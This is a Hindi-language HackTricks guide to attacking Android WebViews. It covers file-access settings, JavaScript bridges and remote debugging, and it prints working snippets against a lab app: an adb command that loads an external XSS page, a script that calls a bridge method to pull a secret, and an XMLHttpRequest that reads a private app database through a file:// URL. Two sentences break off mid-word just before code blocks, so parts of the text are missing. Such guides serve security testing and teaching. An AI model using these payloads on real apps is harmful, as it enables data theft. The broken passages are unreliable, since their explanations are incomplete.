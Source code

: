 # वेबव्यू हमले

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert) के साथ</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोजें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## WebView कॉन्फ़िगरेशन और सुरक्षा पर सरल गाइड

### WebView की कमजोरियों का अवलोकन

एंड्रॉइड विकास का एक महत्वपूर्ण पहलू WebView के सही हैंडलिंग में शामिल है। यह गाइड WebView उपयोग से जुड़े जोखिमों को कम करने के लिए मुख्य कॉन्फ़िगरेशन और सुरक्षा अभ्यासों पर प्रकाश डालता है।

![WebView उदाहरण](../../.gitbook/assets/image%20(718).png)

### **WebView में फ़ाइल एक्सेस**

डिफ़ॉल्ट रूप से, WebViews फ़ाइल एक्सेस की अनुमति देते हैं। यह कार्य Android API स्तर 3 (कपकेक 1.5) से उपलब्ध `setAllowFileAccess()` मेथड द्वारा नियंत्रित होता है। **android.permission.READ_EXTERNAL_STORAGE** अनुमति वाले एप्लिकेशन एक फ़ाइल URL स्कीम (`file://path/to/file`) का उपयोग करके बाह्य संग्रह से फ़ाइलें पढ़ सकते हैं।

#### **पुरानी विशेषताएँ: यूनिवर्सल और URL से फ़ाइल एक्सेस**

- **फ़ाइल URLs से यूनिवर्सल एक्सेस**: यह पुरानी विशेषता फ़ाइल URLs से क्रॉस-ऑरिजिन अनुरोधों की अनुमति देती थी, जिससे संभावित XSS हमलों के कारण एक महत्वपूर्ण सुरक्षा जोखिम उत्पन्न होता था। एप्लिकेशन्स जो Android Jelly Bean और नए लक्ष्यित कर रहे हैं, के लिए डिफ़ॉल्ट सेटिंग अक्षम (`false`) है।
- इस सेटिंग की जांच के लिए, `getAllowUniversalAccessFromFileURLs()` का उपयोग करें।
- इस सेटिंग को संशोधित करने के लिए, `setAllowUniversalAccessFromFileURLs(boolean)` का उपयोग करें।

- **फ़ाइल URLs से फ़ाइल एक्सेस**: यह विशेषता भी पुरानी है, जो अन्य फ़ाइल स्कीम URLs से सामग्री तक पहुंच को नियंत्रित करती थी। यूनिवर्सल एक्सेस की तरह, इसकी डिफ़ॉल्ट सेटिंग सुरक्षा के लिए अक्षम है।
- जांच करने के लिए `getAllowFileAccessFromFileURLs()` का उपयोग करें और सेट करने के लिए `setAllowFileAccessFromFileURLs(boolean)` का उपयोग करें।

#### **सुरक्षित फ़ाइल लोडिंग**

फ़ाइल सिस्टम एक्स
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### जावास्क्रिप्ट ब्रिज

एंड्रॉइड द्वारा एक सुविधा प्रदान की जाती है जो वेबव्यू में **जावास्क्रिप्ट** को **नेटिव एंड्रॉइड ऐप फंक्शन** को आमंत्रित करने की सुविधा प्रदान करती है। इसे `addJavascriptInterface` विधि का उपयोग करके प्राप्त किया जाता है, जो जावास्क्रिप्ट को नेटिव एंड्रॉइड कार्यक्षमताओं के साथ एकीकृत करता है, जिसे _वेबव्यू जावास्क्रिप्ट ब्रिज_ कहा जाता है। सावधानी बरतने की सलाह दी जाती है क्योंकि यह विधि वेबव्यू के सभी पृष्ठों को पंजीकृत जावास्क्रिप्ट इंटरफेस ऑब्ज
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- JavaScript Bridge को WebView में एक इंटरफेस जोड़कर सक्रिय किया जा सकता है:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
- संभावित शोषण JavaScript के माध्यम से, उदाहरण के लिए, एक XSS हमले के माध्यम से, अनावरणित जावा विधियों को बुलाने की संभावना प्रदान करता है:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
- जोखिम को कम करने के लिए, **JavaScript ब्रिज़ उपयोग को प्रतिबंधित** करें APK के साथ भेजे गए कोड तक और रिमोट स्रोतों से JavaScript लोड करने से रोकें। पुराने डिवाइस के लिए, न्यूनतम API स्तर को 17 पर सेट करें।

### Reflection-based Remote Code Execution (RCE)

- एक दस्तावेज़ीत विधि RCE हासिल करने की अनुमति देती है जिसे प्रकार के विशिष्ट पेलोड को निष्पादित करके प्रतिबिंब के माध्यम से किया जा सकता है। हालांकि, `@JavascriptInterface` एनोटेशन अनधिकृत मेथड एक्सेस को रोकता है, हमारी हमले की सतह को सीमित करता है।

### Remote Debugging

- **रिमोट डीबगिंग** Chrome Developer Tools के साथ संभव है, जो WebView सामग्री के भीतर अंतर्क्रिया और अर्बिट्रे JavaScript निष्पादन को संभव बनाता है।

#### रिमोट डीबगिंग सक्षम करना

- एक एप्लिकेशन के सभी WebViews के लिए रिमोट डीबगिंग को सक्षम किया जा सकता है द्वारा:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- डिबगिंग को शर्तानुसार सक्रिय करने के लिए एप्लिकेशन की डिबगेबल स्थिति पर निर्भर करें:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## विषयात्मक फ़ाइलों को बाहर निकालें

- XMLHttpRequest का उपयोग करके विषयात्मक फ़ाइलों को बाहर निकालने का प्रदर्शन:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## संदर्भ
* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>

